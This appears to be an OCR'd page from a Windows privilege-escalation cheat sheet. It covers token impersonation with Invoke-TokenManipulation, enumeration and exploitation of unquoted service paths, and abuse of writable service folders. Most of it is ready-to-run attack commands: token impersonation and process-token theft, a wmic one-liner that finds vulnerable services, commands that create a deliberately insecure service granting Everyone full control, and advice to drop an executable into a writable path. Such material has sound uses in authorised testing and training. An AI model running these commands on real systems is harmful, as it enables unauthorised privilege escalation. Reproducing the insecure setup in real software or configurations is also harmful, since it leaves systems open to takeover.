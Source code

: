 Start new process with token of a user
```
Invoke-TokenManipulation -ImpersonateUser -Username "domain\user"
```

Start new process with token of another process
```
Invoke-TokenManipulation -CreateProcess "C:\Windown\system32\WindowsPowerShell\v1.0\PowerShell.exe" -ProcessId 500
```

# Technniques

## Service Unquoted Path

- `exploit/windows/local/trusted_service_path`

```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```
```
C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe

Leads to running:
C:\Program.exe
C:\Program Files.exe
C:\Program Files (x86)\Program.exe
C:\Program Files (x86)\Program Folder\A.exe
C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
```

Insecure Setup:
```
C:\Windows\System32>sc create "Vulnerable Service" binPath= "C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe" start=auto
C:\Windows\System32>cd C:\Program Files (x86)
C:\Program Files (x86)>mkdir "Program Folder\A Subfolder"
C:\Program Files (x86)>icacls "C:\Program Files (x86)\Program Folder" /grant Everyone:(OI)(CI)F /T
```
## Folder & Service Executable Privileges

- When new folders are created in the root it is writeable for all authenticated users by default. (NT AUTHORITY\Authenticated Users:(I)(M))
- So any application that gets installed on the root can be tampered with by a non-admin user.
    - If binaries load with SYSTEM privileges from this folder it might just be a matter of replacing the binary with your own one.
- https://msdn.microsoft.com/en-us/library/bb727008.aspx

If folder is writable, drop a exe and use "Service Unquoted Path" to execute:
```
icacls "C:\Program Files (x86)\Program Folder"
```
